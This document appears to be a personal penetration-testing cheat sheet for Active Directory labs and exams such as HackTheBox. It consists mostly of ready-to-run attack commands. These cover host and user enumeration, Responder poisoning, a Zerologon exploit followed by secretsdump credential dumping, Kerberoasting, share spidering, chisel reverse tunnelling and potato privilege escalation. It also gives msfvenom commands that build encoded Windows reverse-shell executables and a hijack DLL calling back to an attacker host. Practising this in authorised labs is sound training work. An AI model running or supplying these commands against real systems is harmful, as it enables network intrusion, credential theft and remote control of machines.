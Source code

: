 # TIPS

Do not use metasploit until you have tried EVERYTHING
Try all the boxes before you try metasploit. Most likely, you want to use it on the DCs
	Def on windows at least

Don't try an exploit until you know it works. If a kernel exploit didn't work, restart the machine just in case you broke it with your exploit

# Enum

* Scan IPs
`nmap -sC -sV -iL <hostsFile>`

* Enumerate Hosts
`nxc smb <hostsFile>`

* Enumerate Shares
`nxc smb <hostsFile> -u 'a' -p '' --shares`
	If you have guest access, do a rid brute. 
	Verify with kerbrute and check if any users are as-reproastable

* Find DC IP
`nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`

* Enumerate users through RPC
`net rpc group members 'Domain Users' -W 'megabank.local' -I 10.10.10.169 -U %`

`rpcclient -U '' -N $IP`
	`enumdomusers`
	`querydispinfo`

* Enumerate LDAP
ldapsearch -H ldap://$IP -x -s base namingcontexts
ldapsearch -H ldap://$IP -x -b '$namingContexts' 
	* Remember to do this if you get creds as well

ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"
	-Y GSSAPI is only for if you want kerberos auth

# DNS
**MAKE SURE TO ADD STUFF TO DNS**

# Kerberos

`sudo ntpdate <IP>` to fix clock skew
	Make sure automatic time set is disabled on debian
`sudo ntpdate tick.usno.navy.mil` to set back to eastern


When working with Kerberos, it is useful to have KRB5CCACHE files.
You can do this by getting a TGT:
	getTGT.py  <domain>/<username>
And then exporting before your commands
	export KRB5CCNAME=<username>.ccache <command>

# Low-Hanging Fruit

* Responder
`sudo responder -I tun0 --lm`
	* Remeber you try this with ntlmrelayx if a DC has signing disabled

* Zerologon
**THIS IS DESTRUCTIVE!! Will get you access, but be careful**
`nxc smb $IP -M zerologon`
`python3 cve-2020-1472-exploit.py dc 10.10.86.17`
`secretsdump.py -no-pass -just-dc ustoun.local/dc\$@10.10.86.17`


* Eternal Blue

* PetitPotam

* Sysvol & GPP

* noPAC

* PrintNightmare

* Slinky



# WEB

* CLICK ON EVERY BUTTON ADAM. Do you remember PG Access?

* Is there a way for you to get a username list? 
	* Check for names on the website and in files
	* Generate name combinations.

* If there is MSSQL injection, you can get xp_cmdshell

* If there is LFI, you might be able to get a hash

# After Valid Users

* CHECK ALL USERS WITH ALL RELEVANT SERVICES (see the Manager HTB box)
	* You can try to mangle passwords to reflect their respective usernames

# After Valid Creds

Check with nxc ldap if you can query and then:
Bloodhound
	bloodhound-python -u V.Ventz -p 'HotelCalifornia194!' -ns 192.168.158.175 -d resourced.local -c All


Look at shares
	`nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus -o DOWNLOAD=true`
	Apparently spider_plus doesn't download some file extensions by default. use smbget
	Look at NETLOGON and SYSVOL, bc apparently you can have scripts / executables in there (See PG Nagoya)

Look at adcs
	`nxc ldap -M adcs` (and/or certipy)

Look at user descriptions
	`nxc ldap -M get-desc-users`
	`nxc ldap -M get-unixUserPassword`
	`nxc ldap -M get-userPassword`
	`nxc ldap -M user-desc` < this one will automatically search for passwords

Check smb, **winrm**, wmi, and ldap with `nxc`

For ldap, check laps and gmsa

Kerberoast and AS-Reproast

Coercer.py

If you can log in:
	whoami /priv
		MAKE SURE TO LOOK AT ALL PRIVS
		YOU ONCE MISSED "SeManageVolumePrivilege"
		YOU ALSO ONCE MISSED "SeImpersonatePrivilege"????? IDIOT
	whoami /groups
		Look up interesting groups (esp domain groups) to see if they have any special privs (like executing a lolbin)
		DO THIS ADAM -- ESPECIALLY IF YOU'RE NOT ON AD BC YOU WONT SEE ANYTHING IN BLOODHOUND
	Make sure to look at important files in user directory
	cmdkey /list
		winPEAS will do this for you, but just in case it doesnt work
	net localgroup
	net group
	net user

# Privesc / Lateral Movement

Make sure to individually look for paths between your owned users and the users/machines you want to get to
	Think RBCD

Look for creds in powershell history files

Look for listening ports (esp if they're localhost only or blocked on the firewall)
	forward with:
	chisel server --reverse --port 8080
	.\chisel.exe client <tun0>:8080 R:<port>:127.0.0.1:<port>
		You can do more than one R:... per line


For potato attacks (SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege), use these CLSIDs if the os is listed:
	https://ohpe.it/juicy-potato/CLSID/


# LAST DITCH

vuln scan: sudo nmap --script vuln -p139,445 192.168.158.40 -oN smb_vuln.nmap
	maybe exclude the ports

bruteforcing. hydra is good for this


just in case sliver doesn't work:

powershell empire is allowed, so I assume this is too: 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.243 LPORT=443 -f exe -a x64 --platform windows -b '\x00' -e x64/xor_dynamic -o shell.exe

* Sliver dlls are no good:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.243 LPORT=4444 -f dll -o tzres.dll

If a shell isn't working, check to see if firewall rules aren't working (idk how to do this)

First try 80/443/8080. If that doesn't work, you can set up the revshell listener on a port that is already listening on the machine

